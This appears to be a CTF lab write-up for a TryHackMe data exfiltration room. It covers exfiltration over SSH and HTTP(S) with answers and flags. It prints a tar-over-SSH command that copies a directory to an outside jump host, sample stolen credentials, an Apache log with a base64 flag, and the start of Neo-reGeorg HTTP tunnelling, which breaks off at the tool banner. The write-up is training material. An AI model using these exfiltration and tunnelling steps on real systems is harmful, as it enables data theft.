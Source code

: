 ```bash
```

## Task 5  Exfiltration using SSH
+ All packets sent using the Data Exfiltration technique over SSH are encrypted! (T=True/F=False)`T`
+ Replicate the steps to transfer data over the SSH client. Once you transfer the file successfully, hit Completed and move on to the next task!`No Answer Needed`

+ From victim1 `
```bash
thm@victim1:~$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
The authenticity of host 'jump.thm.com (192.168.0.133)' can't be established.
ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'jump.thm.com,192.168.0.133' (ECDSA) to the list of known hosts.
thm@jump.thm.com's password:
```
+ On JumpBox thereis data was exfilltered
```bash
thm@jump-box:/tmp$ cat task5/creds.txt 
admin:password
Admin:123456
root:toor
```

## Task 6  Exfiltrate using HTTP(S)
+ Check the Apache log file on web.thm.com  and get the flag!`THM{H77P-G37-15-f0un6}`
+ When you visit the http://flag.thm.com/flag website through the uploader machine via the HTTP tunneling technique, what is the flag?

```bash
thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm: 
192.168.0.133 - - [29/Apr/2022:11:41:54 +0100] "GET /example.php?flag=VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo= HTTP/1.1" 200 495 "-" "curl/7.68.0"
192.168.0.133 - - [29/Apr/2022:11:42:14 +0100] "POST /example.php HTTP/1.1" 200 395 "-" "curl/7.68.0"
192.168.0.1 - - [20/Jun/2022:06:18:35 +0100] "GET /test.php HTTP/1.1" 200 195 "-" "curl/7.68.0"
```
+ Start HTTP Tunnelling
```bash
root@ip-10-10-251-99:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm                                                                                                                                                                              


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$
```